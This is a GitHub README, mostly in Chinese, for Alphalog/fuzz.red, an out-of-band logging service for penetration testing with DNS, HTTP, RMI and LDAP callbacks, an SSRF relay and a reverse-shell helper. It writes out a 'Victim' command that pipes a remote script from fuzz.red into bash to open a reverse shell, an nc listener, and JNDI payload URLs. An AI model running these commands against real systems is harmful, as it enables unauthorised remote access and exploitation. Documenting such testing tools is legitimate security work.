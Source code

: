 <img src="fuzz.red.jpg">

# Alphalog

DNSLog、httplog、rmilog、ldaplog、jndi 等都支持,完全匿名 产品(fuzz.red)，Alphalog与传统DNSLog不同，更快、更安全。


```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.16.01      \______/
```

# Welcome to Fuzz.Red #

![image](https://user-images.githubusercontent.com/27001865/150348452-38595c7d-8f16-4564-a1c7-9a02ed9b57a9.png)

## Usage

1. Get token(`key`) and randomly named subdomain (Expires: 1 Day)

	```bash
	$ curl fuzz.red/get
	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}
	```

2. Get logs

	```bash
	$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
	{"code":200,"data":[]}
	```

### DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

### HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"code": 200,
"data": [
	{...}]
}
```

### SSRF

```bash
$ curl -L fuzz.red/ssrf/www.baidu.com/
<!DOCTYPE html>...(www.baidu.com page)...</html>
```


### 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Victim

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
# or 
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
$ nc -lvvp 1234
listening on [any] 1234 ...
connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

### RMI or LDAP 
PATH规则为“sub/text”,sub为子域名的主机头，text为自定义特征
例如：子域名=oz4e.fuzz.red，text=Alphabug
=> oz4e/Alphabug

```bash
rmi://jndi.fuzz.red:5/oz4e/Alphabug
# or
ldap://jndi.fuzz.red:5/oz4e/Alphabug
```
获取log
```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool

{
	"code": 200,
	"data": [
		{
			"ip": "1.2.3.4:41584",
			"reqbody": "Alphabug",
			"subdomain": "oz4e.fuzz.red.",
			"time": "2022-01-16 03:40:03 -0500 EST",
			"type": "ldap"
		}
	]
}
```
## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。
- 2022年01月16日 16:45:12 添加RMI、LDAP log功能，引用https://github.com/EmYiQing/JNDIScan核心模块，实现log查询。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)

## www.fuzz.red 效果
![www fuzz red_(iPhone X)](https://user-images.githubusercontent.com/27001865/149708515-c1dcf244-babe-4948-9418-3760c697010c.png)

![image](https://user-images.githubusercontent.com/27001865/149654871-c93be50f-5e42-4c6a-b1d2-447870285cb5.png)


## 实时反馈群 

### QQ反馈群


QQ群：727871590

![$XVJBS5Q 5QNTDURQ(AKGU6](https://user-images.githubusercontent.com/27001865/159666679-102374da-b9f9-4324-8485-89f8bbbd7e2b.jpg)
 
